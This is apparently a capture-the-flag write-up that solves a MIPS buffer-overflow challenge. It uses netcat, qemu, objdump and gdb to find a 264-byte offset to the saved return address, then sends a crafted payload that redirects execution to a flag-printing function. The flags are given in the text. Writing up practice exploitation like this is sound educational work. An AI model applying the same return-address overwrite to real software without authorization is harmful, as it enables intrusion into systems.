

# Stop gan



#### **Given:** hostname and port - `buffer-overflow.ctfcompetition.com 1337` and archive with two files - `bof` binary and `console.c`

Let's netcat the given resource:
```
> netcat buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.

Console commands: 
run
quit
>>
```
Quick check revealed that `quit` command does quit indeed. `run`, on the other hand, expects us to provide some input:
```
>>run
Inputs: run
12345
Cauliflower systems never crash >>
```
File `console.c` is a source code of this cli. At first glance there's nothing interesting in there.

Well, it's kinda obvious from the task description that there's a buffer overflow happening somewhere. Let's feed a giant input to this thing:
```
> python3 -c "print('run\n' + '1'*1000)" | netcat buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.

Console commands: 
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```
It was a cheaty way to do it but here's the first flag:

**Flag #1: CTF{Why_does_cauliflower_threaten_us}**

Let's see if we can get the bonus flag.

Trying to run `bof` directly:
```
> ./bof
bash: ./bof: cannot execute binary file: Exec format error
```
Let's check what this binary actually is:
```
> file bof
 bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped
```
It's compiled for MIPS architecture, but it would be probably possible to run it with an emulator.
Looking at the `console.c` we can see that the remote machine uses emulator as well:
```
system("/usr/bin/qemu-mipsel-static ./bof");
```
After installing `qemu` let's try to run the binary again:
```
/usr/bin/qemu-mipsel ./bof
Cauliflower systems never crash >>
```
Success!
Now let's try to disassemble `bof` with objdump (using `cross-mipsel-linux-gnu-binutils`):
```
mipsel-linux-gnu-objdump -d bof
```
`main` function is located at `400908` and there's a very interesting instruction inside it:
```
4009e0:	0411ff97 	bal	400840 <local_flag> 0x400840
```
It looks like `main` makes a call to another function with a very promising name `local_flag`. 
Inside `local_flag` this is happening:
```
 400874:	0411ffae 	bal	400730 <print_file>
```
Let's see if we can debug this whole thing with `gdb` (`gdb-multiarch`). For that we need to run `qemu` with `-g` parameter, which will
make `qemu` wait for `gdb` connection to the specified port:
```
python3 -c "print('1'*1000)" | qemu-mipsel -g 12345 ./bof
```
Running `gdb`, specifying architecture and address for remote debugging:
```
> gdb-multiarch bof
GNU gdb (GDB) 9.1
[...]
(gdb) set arch mips
The target architecture is assumed to be mips
(gdb) target remote localhost:12345
Remote debugging using localhost:12345
0x00400530 in __start ()
```
Now we can set breakpoint to `local_flag` entry point and step in:
```
(gdb) break local_flag
Breakpoint 1 at 0x400860
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x31313131 in ?? ()
```
We never reached `local_flag` and also got a segmentation fault which is caught by a handler printing the first flag.
After playing around with breakpoints it's easy to find out where exactly SEGFAULT is happening:
```
400a00:	03e00008 	jr	ra 
```
This is nothing else but just a `return` instruction in `main`. Let's see what stored in return address 
register:
```
(gdb) x $ra
0x31313131:     Cannot access memory at address 0x31313131
```
Hmmm... `0x31` is a hex for `1`. It looks like return address is being rewritten by our input. 
Few lines before jump instruction `ra` is being reassigned:
```
4009f4:	8fbf0124 	lw	ra,292(sp) 
```
Let's have a breakpoint there and check what's the address of 292(sp):
```
(gdb) break *0x4009f4
Breakpoint 2 at 0x4009f4
(gdb) c
Continuing.
Breakpoint 2, 0x004009f4 in main ()
(gdb) x $sp + 292
0x7ffff0dc:     0x31313131
```
Let's look at the memory around `0x7ffff0dc`:
<pre><code>
(gdb) x/2000 0x7ffff0dc - 1000
[...]
0x7fffefc4:     0x00000000      0x004a8970      0x00000000      0x00000001
0x7fffefd4:     <b>0x31313131</b>      0x31313131      0x31313131      0x31313131
0x7fffefe4:     0x31313131      0x31313131      0x31313131      0x31313131
[...]
0x7ffff0d4:     0x31313131      0x31313131      <b>0x31313131</b>      0x31313131
0x7ffff0e4:     0x31313131      0x31313131      0x31313131      0x31313131
0x7ffff0f4:     0x31313131      0x31313131      0x31313131      0x31313131
[...]
</code></pre>

We see that ones begin at address `0x7fffefd4` which is exactly 264 positions before `0x7ffff0dc`. That means
that we can give `bof` 264 bytes of input, and then 265th will overwrite the return address. 
But can we actually feed `bof` with something which will make it it jump from `main` to `local_flag`? First of all,
let's run it in the debug mode again and right before jump set `ra` to be `0x4009d4` - the first instruction in `main`
within the same branch as call to `local_flag`:
```
Breakpoint 4, 0x00400a00 in main ()
(gdb) set $ra = 0x4009d4
(gdb) c
Continuing.
Breakpoint 3, 0x00400860 in local_flag ()
```
We ended up stopping in `local_flag` and also `bof` never detected segfault!
```
Cauliflower systems never crash >>
could not open flag
```
Now we need to figure out the input we need to pass to `bof` to reproduce this behaviour without messing around
with debugger. And that's where the problems begin.
First, `bof` is little-endian:
```
> readelf -h bof | grep Data
Data:    2's complement, little endian
```
which means that least significant value in the byte sequence is stored first, so we need to pass our bytes in the 
reversed order: `\xd4\x09\x40` instead of `\x40\x09\xd4`. Second, we can't pass `\xd4` as it is, as it will be encoded
to `\xc3\x94`. (`\xd4` is hex representation of `Ô` which has two bytes long UTF-8 representation). Proof:

```
> python3 -c "print('1'*264 + '\xd4\x31\x31')" | qemu-mipsel -g 12345 ./bof

Breakpoint 4, 0x00400a00 in main ()
(gdb) x $ra
0x313194c3:     Cannot access memory at address 0x313194c3
```
Well, maybe there exist a symbol which will be encoded to `\xd4\x09`? Not really, the closest Unicode point to it will be
`U+0500`(`Ԁ`) -	`\xd4\x80`. According to `UTF-8` definition the continuation byte of unicode character should always follow 
10xxxxxx pattern, so `\x80` would be the smallest possible value of the second byte. Proof:
```
> python3 -c "print(b'\xd4\x7f'.decode('UTF-8'))"
[...]
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd4 in position 0: invalid continuation byte
> python3 -c "print(b'\xd4\x80'.decode('UTF-8'))"
Ԁ
```
So what's left is to try to jump into address space of `local_flag` function instead, thankfully it starts with 
`0x00400840` which is perfectly encodable. But jumping to this address does not work - there's another SEGFAULT happening
inside `local_flag` before `print_file` function has been called (probably due to non-executed instructions 
`0x4009d4` -`0x4009e0` in `main`). Let's try to jump to address suggested by `gdb` earlier
when we put a breakpoint on function name (`gdb` skips function prologue by default): 
```
(gdb) break local_flag
Breakpoint 1 at 0x400860
```
```
python -c "print('run\n'+ '1'*264 + '\x60\x08\x40')" | netcat buffer-overflow.ctfcompetition.com 1337
[...]
>>Inputs: run
CTF{controlled_crash_causes_conditional_correspondence}
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```
There's another SEGFAULT happening now, but only the bonus flag has been printed!

**Flag2: CTF{controlled_crash_causes_conditional_correspondence}**

Resources used:
- [GDB cheat sheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
- [MIPS instruction reference](http://www.mrc.uidaho.edu/mrc/people/jff/digital/MIPSir.html)
- [Unicode character table](https://www.utf8-chartable.de/)

Tools used:
- [qemu emulator](https://wiki.qemu.org/Main_Page)
- [gdb-multiarch](https://aur.archlinux.org/packages/gdb-multiarch)
- [cross-mipsel-linux-gnu-binutils](https://aur.archlinux.org/packages/cross-mipsel-linux-gnu-binutils)


